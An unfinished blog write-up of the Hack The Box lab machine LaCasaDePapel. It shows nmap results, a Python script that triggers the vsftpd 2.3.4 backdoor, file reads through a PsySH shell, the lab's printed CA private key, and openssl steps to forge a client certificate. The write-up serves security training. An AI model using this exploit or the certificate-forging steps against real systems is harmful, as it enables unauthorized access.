 ```yaml
---
layout: post
title: "HTB - LaCasaDePapel"
author: "mrs3c"
categories: Blog
tags: [hackthebox, htb, pen-testing, certificates, cronjob, nodejs, openssl, otp, php, psysh, ssh rsa auth, ssh, vsftpd]
image: lacasa_logo.png
---
```


To fill in later

# HTB retired machines - LaCasaDePapel

## Summary

Fill out later

## 1. discovery - network service scanning - nmap

```python
# Nmap 7.80 scan initiated Sun Dec  8 21:59:21 2019 as: nmap -sC -sV -Pn -oA nmap/lacasadepapel 10.10.10.131
Nmap scan report for 10.10.10.131
Host is up (0.42s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE  VERSION
21/tcp  open  ftp      vsftpd 2.3.4
22/tcp  open  ssh      OpenSSH 7.9 (protocol 2.0)
| ssh-hostkey:
|   2048 03:e1:c2:c9:79:1c:a6:6b:51:34:8d:7a:c3:c7:c8:50 (RSA)
|   256 41:e4:95:a3:39:0b:25:f9:da:de:be:6a:dc:59:48:6d (ECDSA)
|_  256 30:0b:c6:66:2b:8f:5e:4f:26:28:75:0e:f5:b1:71:e4 (ED25519)
80/tcp  open  http     Node.js (Express middleware)
|_http-title: La Casa De Papel
443/tcp open  ssl/http Node.js Express framework
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
|_http-title: La Casa De Papel
| ssl-cert: Subject: commonName=lacasadepapel.htb/organizationName=La Casa De Papel
| Not valid before: 2019-01-27T08:35:30
|_Not valid after:  2029-01-24T08:35:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
| tls-nextprotoneg:
|   http/1.1
|_  http/1.0
Service Info: OS: Unix
```

## 2. discovery - files and directories - http

 ### 2.1 Navigating to port 80 we find a page which needs an OTP supplied by a QRCode. The page asks us to install Google Authenticator

![discovery_http](https://mrjak3.github.io/assets/img/htb-lacasadepapel-2_http.png)

 ### 2.2 Scanning the code using Google Authenticator on an Android phone gives us a code but it refuses to work either way. So, maybe its for internal users only. Lets keep this aside and come back later.

## 3. discovery - files and directories - https

### 3.1 Browsing to HTTPS shows us an error that we need a client certificate to continue which we don't possess at the moment

![discovery_https](https://mrjak3.github.io/assets/img/htb-lacasadepapel-3_https.png)

## 4. initial access - exploit public facing application - vsftp

### 4.1 As seen from nmap, vsftp is version 2.3.4. A quick search allows the attacker to discover that the version was backdoored. Lets try to replicate the exploit code.

### 4.2 The code just tries a failed login, which triggers the backdoor on port 6200 and then executes commands from it. Lets do that using a small python script:

```python
import socket
import os
import time

def exploit(ip, port):
    sock = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    sock.connect((ip, port))

    sock.send('USER :)\n')
    sock.send('PASS HTBPASS\n')
    time.sleep(2)
    sock.close()

    os.system("rlwrap nc 10.10.10.131 6200 -v")

exploit("10.10.10.131", 21)
```

### 4.3 The code is pretty simple, it just creates a connection to the FTP port, sends in commands and then quiclky connects to the backdoored port at 6200.

### 4.4 Running the script:

 ![exploit_vsftp](https://mrjak3.github.io/assets/img/htb-lacasadepapel-4.4_vsftp.png)

## 5. Psy shell

### 5.1 Lets try executing system commands using the `cmd` operator

### 5.2 We find that shell_exec is disabled which prevents us from executing system commands. However, we can still list directories and read files using `scandir()` and `file_get_contents()`

![5.2.1](https://mrjak3.github.io/assets/img/htb-lacasadepapel-5.2.1.png)
![5.2.2](https://mrjak3.github.io/assets/img/htb-lacasadepapel-5.2.2.png)

### 5.3 We already know that we need a client certificate to access the service on HTTPS. In order to create one we need the CA certificate. Let's find it.

### 5.4 Looking at the home folders of the users we see five users.

![5.4](https://mrjak3.github.io/assets/img/htb-lacasadepapel-5.4.png)

### 5.5 Let's inspect each one of them. After some enumeration we see `ca.key` in ``/home/nairobi`

##6.0 Private key CA certificates

### 6.1 Lets read its contents and copy it into a file

```python
echo file_get_contents("/home/nairobi/ca.key")
-----BEGIN PRIVATE KEY-----
MIIEvgIBADANBgkqhkiG9w0BAQEFAASCBKgwggSkAgEAAoIBAQDPczpU3s4Pmwdb
7MJsi//m8mm5rEkXcDmratVAk2pTWwWxudo/FFsWAC1zyFV4w2KLacIU7w8Yaz0/
2m+jLx7wNH2SwFBjJeo5lnz+ux3HB+NhWC/5rdRsk07h71J3dvwYv7hcjPNKLcRl
uXt2Ww6GXj4oHhwziE2ETkHgrxQp7jB8pL96SDIJFNEQ1Wqp3eLNnPPbfbLLMW8M
YQ4UlXOaGUdXKmqx9L2spRURI8dzNoRCV3eS6lWu3+YGrC4p732yW5DM5Go7XEyp
s2BvnlkPrq9AFKQ3Y/AF6JE8FE1d+daVrcaRpu6Sm73FH2j6Xu63Xc9d1D989+Us
PCe7nAxnAgMBAAECggEAagfyQ5jR58YMX97GjSaNeKRkh4NYpIM25renIed3C/3V
Dj75Hw6vc7JJiQlXLm9nOeynR33c0FVXrABg2R5niMy7djuXmuWxLxgM8UIAeU89
1+50LwC7N3efdPmWw/rr5VZwy9U7MKnt3TSNtzPZW7JlwKmLLoe3Xy2EnGvAOaFZ
/CAhn5+pxKVw5c2e1Syj9K23/BW6l3rQHBixq9Ir4/QCoDGEbZL17InuVyUQcrb+
q0rLBKoXObe5esfBjQGHOdHnKPlLYyZCREQ8hclLMWlzgDLvA/8pxHMxkOW8k3Mr
uaug9prjnu6nJ3v1ul42NqLgARMMmHejUPry/d4oYQKBgQDzB/gDfr1R5a2phBVd
I0wlpDHVpi+K1JMZkayRVHh+sCg2NAIQgapvdrdxfNOmhP9+k3ue3BhfUweIL9Og
7MrBhZIRJJMT4yx/2lIeiA1+oEwNdYlJKtlGOFE+T1npgCCGD4hpB+nXTu9Xw2bE
G3uK1h6Vm12IyrRMgl/OAAZwEQKBgQDahTByV3DpOwBWC3Vfk6wqZKxLrMBxtDmn
sqBjrd8pbpXRqj6zqIydjwSJaTLeY6Fq9XysI8U9C6U6sAkd+0PG6uhxdW4++mDH
CTbdwePMFbQb7aKiDFGTZ+xuL0qvHuFx3o0pH8jT91C75E30FRjGquxv+75hMi6Y
sm7+mvMs9wKBgQCLJ3Pt5GLYgs818cgdxTkzkFlsgLRWJLN5f3y01g4MVCciKhNI
ikYhfnM5CwVRInP8cMvmwRU/d5Ynd2MQkKTju+xP3oZMa9Yt+r7sdnBrobMKPdN2
zo8L8vEp4VuVJGT6/efYY8yUGMFYmiy8exP5AfMPLJ+Y1J/58uiSVldZUQKBgBM/
ukXIOBUDcoMh3UP/ESJm3dqIrCcX9iA0lvZQ4aCXsjDW61EOHtzeNUsZbjay1gxC
9amAOSaoePSTfyoZ8R17oeAktQJtMcs2n5OnObbHjqcLJtFZfnIarHQETHLiqH9M
WGjv+NPbLExwzwEaPqV5dvxiU6HiNsKSrT5WTed/AoGBAJ11zeAXtmZeuQ95eFbM
7b75PUQYxXRrVNluzvwdHmZEnQsKucXJ6uZG9skiqDlslhYmdaOOmQajW3yS4TsR
aRklful5+Z60JV/5t2Wt9gyHYZ6SYMzApUanVXaWCCNVoeq+yvzId0st2DRl83Vc
53udBEzjt3WPqYGkkDknVhjD
-----END PRIVATE KEY-----```

## 7.0 Creating client certificate

### 7.1 Now that we have the CA certificate let's create a client certificate for ourselves. To create it first download the server certificate.

#### 7.1.1 Navigate to https://10.10.10.13
#### 7.1.2 then click on the lock icon on the URL bar.
#### 7.1.3 Then "Connection > More Information > View Certificate. Then in the popup window click on Details > Export"
#### 7.1.4 Export and save to folder

### 7.2 Then follow these steps to create the certificate:

#### 7.2.1 `openssl genrsa -out client.key 4096`
#### 7.2.2 `openssl req -new -key client.key -out client.req`
#### 7.2.3 `openssl x509 -req -in client.req -CA lacasadepapelhtb.crt -CAkey ca.key -set_serial 101 -extensions client -days 365 -outform PEM -out client.cer`
#### 7.2.4 `openssl pkcs12 -export -inkey client.key -in client.cer -out client.p12 rm client.key client.req client.cer`

### 7.3 Now upload the client.p12 to the browser's store. In Firefox, go to Preferences > Privacy & Security > View Certificates. Then in the Your Certificates section click on Import and import the cert.

![7.3](https://mrjak3.github.io/assets/img/htb-lacasadepapel_7.3.png)
